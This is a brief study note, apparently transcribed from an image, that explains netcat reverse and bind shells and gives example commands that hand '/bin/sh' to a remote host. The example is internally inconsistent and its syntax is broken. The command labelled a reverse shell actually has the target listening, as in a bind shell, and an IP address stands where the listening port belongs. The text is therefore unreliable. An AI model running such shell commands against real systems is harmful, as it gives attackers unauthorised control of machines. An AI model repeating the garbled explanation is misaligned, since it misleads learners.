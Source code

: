 Reverse shell is most common, example tool is netcat. Shell is simply access to the target machine. Reverse shell means the victims host connects to ours.

Example command for Reverse Shell
TGT: nc -lvp 192.168.1.1 -e /bin/sh

C2: nc 192.168.1.2 4444

Very commonly used

Bind Shell: opposite idea, have the target host listening using NC, and then the C2 host connects to the host. Useful when bypassing firewalls.
